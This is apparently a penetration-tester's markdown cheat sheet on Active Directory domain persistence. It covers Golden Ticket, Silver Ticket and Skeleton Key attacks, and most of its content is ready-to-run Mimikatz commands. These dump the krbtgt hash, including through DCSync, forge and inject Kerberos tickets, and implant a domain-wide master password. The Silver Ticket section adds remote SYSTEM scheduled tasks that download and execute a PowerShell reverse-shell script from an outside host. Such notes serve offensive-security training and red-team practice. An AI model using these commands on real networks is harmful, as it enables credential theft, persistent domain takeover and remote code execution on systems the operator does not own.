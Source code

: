 # Domain Persistence
---
# Navigation
- **[[#Golden Ticket]]**
	- [[#Definition]]
	- [[#Attacking]]
- **[[#Silver Ticket]]**
	- [[#Definition]]
	- [[#Attacking]]
	- [[#Getting a reverse shell]]
- **[[#Skeleton key]]**
	- [[#Attack]]
---
# Golden Ticket
## Definition
A valid **TGT as any user** can be created **using the NTLM hash of the krbtgt AD account**. The advantage of forging a TGT instead of TGS is being **able to access any service** (or machine) in the domain and the impersonated user.
The **krbtgt** account **NTLM hash** can be **obtained** from the **lsass process** or from the **NTDS.dit file** of any DC in the domain.
## Attacking
1. Dumping hashes (Requires DA privilege)
```powershell
#On DC
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'

#Using DcSync (Quiter)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'
```
2. Generating the ticket
```powershell
#On any machine
Invoke-Mimikatz -Command '"kerberos::golden /User:Administrator /domain:<DOMAIN-FQDN> /sid:<Domain-SID> /krbtgt:<NTLM> /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```
>Note: `/ptt` injects the ticket in the current powershell process (no need to save  the ticket on disk).Alternatively you can use `/ticket` to save the  ticket in a file for later use.

3. Confirm by running `klist` to view cached tickets in memory
```powrshell
klist
```
**Once** you have the **golden Ticket injected**, you can access the shared files **(C$)**, and execute services and WMI, so you could use **psexec** or **wmiexec** to obtain a shell (looks like yo can not get a shell via winrm).

## Further reading
- Explained -> [**Golden-tickets**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)
- Cheatsheet -> [**Hacktricks**](https://book.hacktricks.xyz/windows/active-directory-methodology/golden-ticket)
--- 
# Silver Ticket
## Definition
The Silver ticket attack is based on **crafting a valid TGS for a service once the NTLM hash of service is owned** (like the **PC account hash**). Thus, it is possible to **gain access to that service** by forging a custom TGS **as any user**.
## Attacking
1. Dumping hashes (Requires DA privilege)
```powershell
#On DC
Invoke-Mimikatz -Command '"lsadump::lsa /patch"'
Invoke-Mimikatz -Command '"lsadump::lsa /inject /name:krbtgt"'

#Using DcSync (Quiter)
Invoke-Mimikatz -Command '"lsadump::dcsync /user:krbtgt"'
```
2. Forging the ticket
```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:<Domain-FQDN> /sid:<Domain-SID> /rc4:<Service-NTLM> /user:Administrator /service:<SPN> /target:<Target-Computer> /ptt"'
```
> Note:
> `/Service`: is the SPN name of service for which TGS is to be created.
  `/Target`: server hosting the attacked service for which the TGS ticket was cracked.
 
## Getting a reverse shell.

**HOST**  service
```powershell
#Forging TGS 
Invoke-Mimikatz -Command '"kerberos::golden /domain:<Domain-FQDN> /sid:<Domain-SID> /rc4:<Service-NTLM> /user:Administrator /service:HOST /target:<Target-Computer> /ptt"'
#Scheduling task in remote computers
#Check you have permissions to use schtasks over a remote server
schtasks /S some.vuln.pc
#Create scheduled task, first for exe execution, second for powershell reverse shell download
schtasks /create /S some.vuln.pc /SC weekly /RU "NT Authority\System" /TN "SomeTaskName" /TR "C:\path\to\executable.exe"
schtasks /create /S some.vuln.pc /SC Weekly /RU "NT Authority\SYSTEM" /TN "SomeTaskName" /TR "powershell.exe -c 'iex (New-Object Net.WebClient).DownloadString(''http://172.16.100.114:8080/pc.ps1''')'"
#Check it was successfully created
schtasks /query /S some.vuln.pc
#Run created schtask now
schtasks /Run /S mcorp-dc.moneycorp.local /TN "SomeTaskName"
```
> Useful tool: [**Powercat**](https://github.com/besimorhino/powercat)

## Further reading
- Cheatsheet -> [**Hacktricks**](https://book.hacktricks.xyz/windows/active-directory-methodology/silver-ticket)
- Explained -> [**Silver-tickets**](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-silver-tickets)

# Skeleton key
The Skeleton Key is a particularly scary piece of malware targeted at Active Directory domains to make it alarmingly easy to hijack any account. This malware injects itself into **LSASS** and creates a master password that will work for any account in the domain. Existing passwords will also continue to work, so it is very difficult to know this attack has taken place unless you know what to look for.
## Attack
Requires DA privileges
```powershell
Invoke-Mimikatz -Command '"misc::skeleton"'
```
 Now you can authenticate as any user with the default password of **Mimikatz**.
 > **Note:** Rebooting a domain controller will remove this malware and it will have to be redeployed by the attacker.